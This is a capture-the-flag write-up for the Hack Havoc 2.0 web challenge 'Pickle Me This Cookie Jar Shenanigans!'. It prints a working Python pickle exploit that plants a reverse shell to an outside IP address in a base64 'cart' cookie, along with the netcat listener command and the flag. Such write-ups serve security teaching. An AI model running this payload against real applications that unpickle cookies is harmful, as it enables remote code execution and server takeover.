


# CTF Write-Up: Pickle Me This Cookie Jar Shenanigans!

## Introduction

This write-up discusses the challenge: **Pickle Me This Cookie Jar Shenanigans!** from the **Hack Havoc 2.0** CTF.

## Required Information

- **CTF Name:** Hack Havoc 2.0
- **Challenge Name:** Pickle Me This Cookie Jar Shenanigans!
- **Challenge Category:** Web
- **Challenge Points:** 150

## Content
The Pickle Me This Cookie Jar Shenanigans! challenge involved using Python’s pickle module to craft a serialized payload for remote code execution. Here’s how I approached it:

### Step 1: Setup AWS Ubuntu Instance
I launched an Ubuntu instance on AWS and updated the security group’s inbound rules to allow traffic on all ports from any IPv4 address, ensuring it was fully accessible.

### Step 2: Create the Exploit Code
Using Python, I crafted an exploit with a reverse shell payload using the pickle module.

exploit.py
```python
import pickle
import base64
import subprocess

class RCE:
    def __reduce__(self):
        # Python reverse shell payload
        cmd = ('python3 -c \'import socket,subprocess;'
               's=socket.socket(socket.AF_INET,socket.SOCK_STREAM);'
               's.connect(("13.239.38.111",4242));'
               'subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())\'')
        return subprocess.Popen, (['/bin/bash', '-c', cmd],)

if __name__ == '__main__':
    # Serialize the class instance to a pickle object
    pickled = pickle.dumps(RCE())

    # Encode the pickled object in base64 (for safe transfer in the cookie)
    payload = base64.urlsafe_b64encode(pickled).decode()
    print(f'Payload: {payload}')

```

### Step 3: Generate Payload, Update Cookies, and Start Listener
I ran **exploit.py** to generate a base64-encoded payload. I then copied this payload into the "**cart**" cookie on the challenge website. At the same time, I started a Netcat session on my AWS instance to listen for incoming connections with:




### Step 4: Trigger the Exploit and Retrieve the Flag
After refreshing the page and navigating to */view*, the reverse shell was triggered. This gave me access to the server shell via the Netcat session, where I found the flag in flag.md.
```bash
nc -lvnp 4242
```




## Flag: 
     CM{c0Ngr47S_y0u_ArE_A_Ser1A1_KI11er}
